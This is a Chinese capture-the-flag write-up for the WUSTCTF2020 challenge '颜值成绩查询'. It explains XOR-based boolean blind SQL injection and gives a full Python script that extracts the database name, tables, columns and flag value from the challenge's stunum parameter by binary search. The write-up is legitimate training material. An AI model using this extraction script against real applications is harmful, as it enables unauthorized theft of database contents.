



# [WUSTCTF2020]颜值成绩查询

## 知识点

`sql注入`

`异或注入`

`布尔盲注`

## 解题

首先判断注入情况








发现`1^1`即`0`返回`strnum`为`0`的内容,`1^0`即`1`返回`strnum`为`1`的内容，那么我们就直接用`sql二分法脚本即可`，用`[极客大挑战 2019]FinalSQL`的脚本大概改一下就能用

```python
import requests
# from urllib.parse import urljoin

url = 'http://f6b2fdaf-2e40-4150-ab1c-70fd8f4f4083.node5.buuoj.cn:81/?stunum='

def judge_database():
    """ 获取数据库长度 """
    for db_length in range(20):
        tmp_url = f"{url}0^(length(database())={db_length})"
        resp = requests.get(tmp_url, timeout=8)
        if "Hi admin, your score is: 100" in resp.text:         # 返回正常页面的判断值
            print(f"Database length is: {db_length}")
            return db_length
        print(f"try 0^(length(database())={db_length})")


def get_database(db_length):
    """ 获取数据库名 """
    database = ''
    for i in range(1, db_length + 1): # 因为数据库长度为4
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr(database(),{i},1))<{mid})"
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if "Hi admin, your score is: 100" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        database += chr(mid - 1)
    print(f"Database is: {database}")
    return database


def get_tables_length(db):
    """ 获取表名长度 """
    for table_length in range(20):
        tmp_url = f"{url}0^((select(length(group_concat(table_name)))from(information_schema.tables)where(table_schema='{db}'))={table_length})"
        print(tmp_url)
        resp = requests.get(tmp_url, timeout=8)
        if "Hi admin, your score is: 100" in resp.text:
            print(f"Table length is: {table_length}")
            return table_length
            break

def get_tables(db, table_length):
    """ 获取表名 """
    tables = ''
    for i in range(1, table_length + 1):
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema='{db}')),{i},1))<{mid})"
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if "Hi admin, your score is: 100" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        tables += chr(mid - 1)
        print(tables)
    print(f"Tables name is: {tables}")
    return tables


def get_column_length(table_name='Flaaaaag'):
    """ 判断列名长度 """
    for column_length in range(40):
        tmp_url = f"{url}0^((select(length(group_concat(column_name)))from(information_schema.columns)where(table_name='{table_name}'))={column_length})"
        print(tmp_url)
        resp = requests.get(tmp_url, timeout=8)
        if "Hi admin, your score is: 100" in resp.text:
            print(f"Column length is: {column_length}")
            return column_length
            break
        
        
def get_columns_name(table_name='Flaaaaag', column_length=16):
    """ 获取列名 """
    columns = ''
    for i in range(1, column_length + 1): # 因为表长度为16
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr((select(group_concat(column_name))from(information_schema.columns)where(table_name='{table_name}')),{i},1))<{mid})"
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if "Hi admin, your score is: 100" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        columns += chr(mid - 1)
        print(columns)
    print(f"Column is: {columns}")
    
def get_flag_value(columns, table_name, value_length):
    column_values = ''
    for i in range(1, value_length + 1): # 因为表长度为16
        low = 32
        high = 128
        mid = (low + high) // 2
        while low < high:
            tmp_url = f"{url}0^(ord(substr((select(group_concat({columns}))from({table_name})),{i},1))<{mid})"
            print(f"{tmp_url}\t\tlow:{low}\t\thigh:{high}")
            resp = requests.get(tmp_url, timeout=8)
            if "Hi admin, your score is: 100" in resp.text:
                high = mid
            else:
                low = mid + 1
            mid = (low + high) // 2
        if mid <= 32 or mid >= 127:
            break
        column_values += chr(mid - 1)
        print(column_values)
    print(f"value is: {column_values}")


if __name__ == '__main__':
    # db_length = judge_database()
    # db_length = 3
    # db = get_database(db_length)
    # db = 'ctf'
    # table_length = int(get_tables_length(db))
    # table_length = 10
    # tables = get_tables(db, table_length)
    table_name = 'flag'
    # column_length = int(get_column_length(table_name))
    column_length = 10
    # get_columns_name(table_name, column_length)
    columns = "flag,value"
    value_length = 100
    get_flag_value(columns, table_name, value_length)  # 没在那个表里 重新查表
```

最终`flag`在`ctf`数据库,`flag`表，`value`字段中